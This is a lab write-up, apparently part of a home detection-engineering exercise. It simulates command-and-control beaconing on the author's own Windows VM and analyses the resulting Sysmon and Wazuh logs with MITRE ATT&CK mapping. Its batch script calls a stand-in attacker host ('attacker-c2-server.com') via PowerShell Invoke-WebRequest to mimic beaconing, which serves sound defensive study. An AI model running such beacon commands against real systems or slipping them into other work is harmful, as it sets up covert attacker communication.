

# Hint 9: Command and Control (C2) Simulation

## Simulation
I simulated a Command and Control (C2) attack on my Windows 10 VM to mimic an attacker establishing communication with a remote server after gaining access. I created a batch file (`c2_sim.bat`) that simulates C2 behavior by making HTTP requests to a fake server (`attacker-c2-server.com`), pinging a fake IP (`203.0.113.1`), and creating a file to simulate data exfiltration or command receipt.

## Command Used
```bat
@echo off
echo Simulating C2 communication...
REM Simulate beaconing to a C2 server using curl (or powershell if curl unavailable)
powershell -Command "Invoke-WebRequest -Uri 'http://attacker-c2-server.com:8080/beacon' -Method GET -UseBasicParsing"
REM Simulate periodic network communication with ping
ping 203.0.113.1 -n 3
REM Simulate receiving a command or exfiltrating data
echo Simulated C2 command received > C:\Users\mohan\Downloads\c2_data.txt
REM Simulate accessing the command/data file
type C:\Users\mohan\Downloads\c2_data.txt
echo C2 simulation complete.
```

## Logs Generated
- **Sysmon Logs (Event Viewer):** Captured the process creation for `c2_sim.bat` (Event ID 1), `powershell.exe` (Event ID 1), network connection to `203.0.113.1` (Event ID 3), and file creation for `c2_data.txt` (Event ID 11).  
- **Wazuh Dashboard:** Displayed the Sysmon events, confirming the activity was logged and forwarded.

## Screenshots
- **Sysmon Log for `c2_sim.bat` Execution (Event ID 1):**   
- **Sysmon Log for `powershell.exe` (Event ID 1):**   
- **Sysmon Log for Network Connection to `203.0.113.1` (Event ID 3):**   
- **Wazuh Log for `powershell.exe` (Event ID 1):**   
- **Wazuh Log for File Creation (Event ID 11):** 

## Analysis
- **Pattern Observed:** The script execution began with `c2_sim.bat` running (Event ID 1, see hint-9-1.png), which invoked `powershell.exe` to attempt an HTTP request to `attacker-c2-server.com` (Event ID 1, see hint-9-2.png and hint-9-4.png). A `ping` to `203.0.113.1` simulated network communication (Event ID 3, see hint-9-3.png). A file `c2_data.txt` was created to simulate data exfiltration or command receipt (Event ID 11, see hint-9-5.png).  
- **Fields Analyzed:**  
  - `data.win.eventdata.commandLine`: Contains `c2_sim.bat` (hint-9-1.png)  
  - `data.win.eventdata.commandLine`: Contains `Invoke-WebRequest` (hint-9-2.png and hint-9-4.png)  
  - `data.win.eventdata.destinationIp`: `203.0.113.1` (hint-9-3.png)  
  - `data.win.eventdata.targetFilename`: `C:\Users\mohan\Downloads\c2_data.txt` (hint-9-5.png)  
- **Impact:** The HTTP request and `ping` attempts indicate C2 beaconing, while the file creation suggests data exfiltration or command receipt, typical of malware communicating with an attacker-controlled server.

## MITRE ATT&CK Mapping
- **T1059: Command and Scripting Interpreter** (Execution): The batch file (`c2_sim.bat`) and PowerShell were used to execute commands (hint-9-1.png and hint-9-2.png).  
- **T1071: Application Layer Protocol** (Command and Control): The script simulated C2 communication over HTTP using `Invoke-WebRequest` (hint-9-2.png and hint-9-4.png).  
- **T1041: Exfiltration Over C2 Channel** (Exfiltration): The creation of `c2_data.txt` simulated data exfiltration or command receipt over the C2 channel (hint-9-5.png).

